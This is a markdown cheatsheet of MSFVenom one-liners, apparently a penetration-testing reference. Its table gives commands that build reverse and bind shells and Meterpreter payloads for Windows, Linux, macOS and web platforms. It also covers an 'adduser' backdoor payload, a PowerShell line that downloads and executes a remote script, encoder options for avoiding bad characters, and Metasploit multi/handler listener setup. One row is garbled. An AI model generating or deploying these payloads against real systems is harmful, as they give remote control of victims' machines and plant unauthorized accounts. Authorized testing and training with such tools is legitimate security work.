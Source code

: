 # MSFVenom

## MSFVenom Cheatsheet

Single Page Cheatsheet for common MSF Venom One Liners\
Available in PDF, DOCX and Markdown format!_PDF and DOCX versions contain the payload size in bytes and a few more commands._

## MSFVenom Cheatsheet

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| msfvenom -l payloads                                                                                                                                                                                                      | List available payloads                         |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        | List payload options                            |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP                                                                                                                                                         | Payload Encoding                                |
| msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                     | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                        | Linux Meterpreter bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage               |
| msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage            |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                       | Windows Meterpreter reverse shell               |
| msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell          |
| msfvenom -p windows/meterpreter/bind\_tcp RHOST= IP LPORT=PORT -f exe > shell.exe                                                                                                                                         | Windows Meterpreter bind shell                  |
| msfvenom -p windows/shell/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                             | Windows CMD Multi Stage                         |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Single Stage                        |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                                | Windows add user                                |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                        | Mac Reverse Shell                               |
| msfvenom -p osx/x86/shell\_bind\_tcp RHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                           | Mac Bind shell                                  |
| msfvenom -p cmd/unix/reverse\_python LHOST=IP LPORT=PORT -f raw > shell.py                                                                                                                                                | Python Shell                                    |
| msfvenom -p cmd/unix/reverse\_bash LHOST=IP LPORT=PORT -f raw > shell.sh                                                                                                                                                  | BASH Shell                                      |
| msfvenom -p cmd/unix/reverse\_perl LHOST=IP LPORT=PORT -f raw > shell.pl                                                                                                                                                  | PERL Shell                                      |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f asp > shell.asp                                                                                                                                       | ASP Meterpreter shell                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp                                                                                                                                          | JSP Shell                                       |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f war > shell.war                                                                                                                                          | WAR Shell                                       |
| msfvenom -p php/meterpreter\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php                                                                                                                            | pbcopy && echo '?php '                          |
| msfvenom -p php/reverse\_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php                                                                                                                                             | Php Reverse Shell                               |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"" -f python                                                                   | Windows Exec Nishang Powershell in python       |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\x04\xA0"                                                                                                   | Bad characters shikata\_ga\_nai                 |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv\_mov -b "\x04\xA0"                                                                                                       | Bad characters fnstenv\_mov                     |

## Multihandler Listener

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse\_tcp payload,

```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

## References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675\
https://thor-sec.com/cheatsheet/oscp/msfvenom\_cheat\_sheet/\
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
